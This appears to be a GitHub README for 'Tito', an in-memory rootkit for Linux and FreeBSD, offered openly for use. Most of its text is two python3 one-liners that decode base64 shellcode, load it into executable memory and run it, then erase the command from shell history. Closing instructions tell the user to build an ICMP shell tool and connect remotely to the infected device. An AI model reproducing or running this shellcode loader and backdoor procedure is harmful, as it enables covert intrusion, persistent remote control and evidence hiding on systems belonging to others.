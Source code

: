 # Tito
An In-Memory Rootkit For Linux

<h2>From Tito to Stalin:</h2>

"Stop sending people to kill me. We’ve already captured five of them, one of them with a bomb and another with a rifle. If you don’t stop sending killers, I’ll send one to Moscow, and I won’t have to send a second."

You can run the entire rootkit from the Linux command-line like so:

```
python3 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp9////0iNBe////9Iu6ajGtSlB5bkSDFYJ0gt+P///+L07hs1tsxpuZfOo4OE8VjEgs6OeYD7VX75pqMa+81o+4GJ03LnlnW5rfXrX5jpKuDUiJE1vdZv8uTw9E6KzzzO66OjGtSlB5bk"; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("... and I won’t have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
```

With FreeBSD, it will depend on the version of python installed and if history is enabled. If history is not enabled and you have python3.11 you can just use this:

```
python3.11 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp+P///0iNBe////9Iu67h2fdth+YDSDFYJ0gt+P///+L05tALH0+H5gOBibaaCKiWa53Sq9gZ7pJsgaiKvyjLqi7Y0ffEQu6Va8rhhqU6z2/l5tAZv+5P3Qyr4dn3bYfmAw=="; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("...and I will not have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
``` 

Should you see errors like ```/bin/sh: history: not found```, it just means that the history command was never set up properly on that device. 

From there you may go into the ISHELL-v0.3 folder and type 'make linux' or 'make bsd' to build ish. Then you may run ish with the ip of the device the rootkit was ran on to connect.

Currently tested on x86_64 Debian Trixie and FreeBSD 14.1

